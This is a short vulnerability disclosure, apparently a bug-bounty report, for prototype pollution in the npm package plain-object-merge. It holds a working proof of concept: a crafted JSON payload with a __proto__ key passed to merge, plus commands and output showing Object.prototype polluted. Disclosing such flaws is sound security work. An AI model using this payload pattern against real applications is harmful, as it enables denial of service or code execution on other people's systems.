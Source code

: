 # Description

`plain-object-merge` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const merge = require('plain-object-merge')

console.log(`Before: ${{}.polluted}`)
merge([{}, JSON.parse('{"__proto__": {"polluted": true}}')])
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i plain-object-merge # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

